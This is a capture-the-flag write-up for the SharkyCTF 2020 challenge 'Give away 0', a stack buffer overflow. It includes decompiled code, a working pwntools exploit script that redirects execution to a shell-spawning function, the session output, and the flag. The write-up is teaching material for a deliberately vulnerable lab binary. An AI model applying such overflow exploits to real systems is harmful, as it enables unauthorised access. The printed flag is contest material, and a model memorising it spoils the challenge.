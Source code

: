 # SharkyCTF 2020

## Give away 0

> 160
>
> Home sweet home.
>
> Creator: Hackhim
>
> `nc sharkyctf.xyz 20333`
>
> [`0_give_away`](0_give_away)

Tags: _pwn_ _bof_ _x86-64_


## Summary

Overflow buffer; overwrite return address with address of win function.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

    
### Decompile with Ghidra

```c
void vuln(void)

{
  char local_28 [32];
  
  fgets(local_28,0x32,stdin);
  return;
}
```

`32 != 0x32` (`50`) is the vulnerability.  With no PIE overwriting the return address in the stack and calling `win_func` is trivial:

```c
void win_func(void)

{
  execve("/bin/sh",(char **)0x0,(char **)0x0);
  return;
}
```

Just write `0x28` bytes to get to the return address in the stack:

```
             undefined         AL:1               <RETURN>
             undefined1        Stack[-0x28]:1     local_28
```

Then the address of `win_func`.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

#p = process('./0_give_away')
p = remote('sharkyctf.xyz', 20333)

binary = ELF('./0_give_away')
win = binary.symbols['win_func']

payload  = 0x28 * b'A'
payload += p64(win)

p.sendline(payload)
p.interactive()
```

Output:

```
[+] Opening connection to sharkyctf.xyz on port 20333: Done
[*] '/pwd/datajerk/sharkyctf2020/giveaway0/0_give_away'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Switching to interactive mode
$ cat flag.txt
shkCTF{#Fr33_fL4g!!_<3}
```